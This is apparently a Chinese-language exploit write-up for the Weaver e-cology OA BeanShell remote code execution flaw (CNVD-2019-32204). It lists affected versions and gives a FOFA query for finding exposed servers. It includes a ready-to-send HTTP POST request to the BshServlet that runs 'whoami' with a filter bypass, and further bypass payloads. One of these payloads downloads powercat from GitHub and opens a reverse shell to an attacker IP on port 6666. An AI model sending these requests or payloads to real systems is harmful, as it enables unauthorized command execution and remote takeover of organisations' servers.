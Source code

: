# 泛微OA Bsh 远程代码执行漏洞 CNVD-2019-32204

## 漏洞描述

2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

## FOFA

> [!NOTE]
>
> app=“泛微-协同办公OA”

## 影响版本

> [!NOTE]
>
> E-cology 7.0
> E-cology 8.0
> E-cology 8.1
> E-cology 9.0

## 漏洞复现

直接在网站根目录后加入组件访问路径 /weaver/bsh.servlet.BshServlet/，如下图在victim上执行了命令“ipconfig.exe”

![](image/fanwei-6.png)

请求包为

```shell
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=eval%00("ex"%2b"ec(\"whoami\")");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

#### 关于绕过

```shell
eval%00("ex"%2b"ec(\"whoami\")");
ex\u0065c("cmd /c dir");
IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
```

### 漏洞POC

https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204